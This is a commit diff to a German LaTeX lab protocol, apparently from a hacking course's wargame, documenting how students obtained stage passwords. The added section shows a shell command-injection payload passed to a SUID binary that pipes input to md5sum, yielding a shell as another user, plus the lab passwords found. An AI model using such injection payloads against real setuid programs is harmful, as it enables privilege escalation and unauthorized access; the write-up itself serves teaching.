

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/5/protokoll.tex): two parts of pages 4 and 5 of 5, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Aufgabe 3b

```diff
--- a/Protokolle/5/protokoll.tex
+++ b/Protokolle/5/protokoll.tex
@@ -243,6 +243,7 @@ Der Speicherzugriffsfehler kommt von der weiteren Ausführung des Programms, da
 
 
 \section*{Aufgabe 3}
+\subsection*{a)}
 Um diese Aufgabe zu lösen haben wir das Binary \texttt{break\_it} mittels der radare GUI Bokken disassembliert. Nach etwas Code studieren fiel uns auf, dass der String "Access Denied!" nach der Sprunganweisung
 \begin{verbatim}
 test eax, eax
@@ -255,5 +256,30 @@ Got it, move on!: dbv28%82hr!37v6!2
 \end{verbatim}
 Das Passwort für stage2 lautete also \texttt{dbv28\%82hr!37v6!2}
 
-\subsection*{a)}
+\subsection*{b)}
+Ein \texttt{ls -lisah} zeigte, dass die sumgen Binary dem Benutzer stage3 gehört und da das SUID Bit gesetzt wird auch mit seinen Rechten ausgeführt wird.
+\begin{verbatim}
+# ls -lisah
+[..]
+ 43322  12K -r-sr-sr-x 1 stage3 stage3  11K Jun 20  2013 sumgen
+[..]
+\end{verbatim}
+Nachdem wir etwas mit der \texttt{sumgen} Binary experimentiert hatten und verschiedene Eingaben ausprobiert hatten, fanden wir heraus, dass die Eingabe mittels einer Pipe in das Programm \texttt{md5sum} geleitet wird.
+Sumgen ruft also ungefähr folgende Kommandline auf:
+\begin{verbatim}
+echo -n 'EINGABE' | md5sum
+\end{verbatim}
+Wir schafften es mittels der folgenden Eingabe eine Shell mit den Rechten von stage3 zu öffnen:
+\begin{verbatim}
+./sumgen md5 "';sh;echo -n'"
+\end{verbatim}
+Wir wechselten mittels
+\begin{verbatim}
+cd ../stage3
+\end{verbatim}
+in das Homeverzeichnis von stage3 und fanden eine Datei mit dem Namen \texttt{pass.txt} die das Passwort \texttt{i76v!IRi\$vBi38} enthielt. Damit loggten wir uns dann via SSH auf den Benutzer stage3 ein.
+Passwort für stage3 lautet also: \texttt{i76v!IRi\$vBi38}
+
+\subsection*{c)}
+
 \end{document}
```
